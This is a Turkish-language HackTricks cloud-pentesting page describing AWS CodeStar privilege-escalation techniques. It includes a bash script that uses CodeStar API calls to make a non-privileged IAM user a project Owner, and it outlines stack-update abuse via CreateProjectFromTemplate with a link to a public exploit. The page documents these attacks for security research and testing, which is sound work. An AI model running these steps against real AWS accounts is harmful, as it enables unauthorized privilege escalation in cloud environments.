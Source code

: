 # AWS - Codestar Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Codestar

Codestar hakkında daha fazla bilgi bulabilirsiniz:

{{#ref}}
codestar-createproject-codestar-associateteammember.md
{{#endref}}

### `iam:PassRole`, `codestar:CreateProject`

Bu izinlerle **bir codestar IAM Rolünü** kötüye kullanarak **rastgele eylemler** gerçekleştirebilirsiniz **cloudformation şablonu** aracılığıyla. Aşağıdaki sayfayı kontrol edin:

{{#ref}}
iam-passrole-codestar-createproject.md
{{#endref}}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

Bu teknik, bir codestar projesi oluşturmak için `codestar:CreateProject` kullanır ve bir IAM kullanıcısını yeni bir CodeStar **projesinin** **sahibi** yapmak için `codestar:AssociateTeamMember` kullanır; bu da onlara **birkaç ek izinle yeni bir politika** verecektir.
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
Eğer zaten **projenin üyesiyseniz**, rolünüzü `codestar:AssociateTeamMember` yerine **`codestar:UpdateTeamMember`** iznini kullanarak **sahip** olarak **güncelleyebilirsiniz**.

**Olası Etki:** Oluşturulan codestar politikasına privesc. Bu politikanın bir örneğini bulabilirsiniz:

{{#ref}}
codestar-createproject-codestar-associateteammember.md
{{#endref}}

### `codestar:CreateProjectFromTemplate`

1. **Yeni Bir Proje Oluşturun:**
- Yeni bir projenin oluşturulmasını başlatmak için **`codestar:CreateProjectFromTemplate`** eylemini kullanın.
- Başarılı bir şekilde oluşturulduğunda, **`cloudformation:UpdateStack`** izni otomatik olarak verilir.
- Bu erişim, `CodeStarWorker-<generic project name>-CloudFormation` IAM rolü ile ilişkili bir yığına yöneliktir.
2. **Hedef Yığını Güncelleyin:**
- Verilen CloudFormation izinleri ile belirtilen yığını güncellemeye devam edin.
- Yığının adı genellikle iki desenle uyumlu olacaktır:
- `awscodestar-<generic project name>-infrastructure`
- `awscodestar-<generic project name>-lambda`
- Kesin ad, seçilen şablona bağlıdır (örnek istismar betiğine bakınız).
3. **Erişim ve İzinler:**
- Güncelleme sonrası, yığınla bağlantılı **CloudFormation IAM rolü** ile atanan yetenekleri elde edersiniz.
- Not: Bu, doğası gereği tam yönetici ayrıcalıkları sağlamaz. Ayrıcalıkları daha da yükseltmek için ortamda ek yanlış yapılandırılmış kaynaklar gerekebilir.

Daha fazla bilgi için orijinal araştırmaya bakın: [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/).\
İstismarı [https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar_createprojectfromtemplate_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar_createprojectfromtemplate_privesc/CodeStarPrivEsc.py) adresinde bulabilirsiniz.

**Olası Etki:** Cloudformation IAM rolüne privesc.

{{#include ../../../../banners/hacktricks-training.md}}
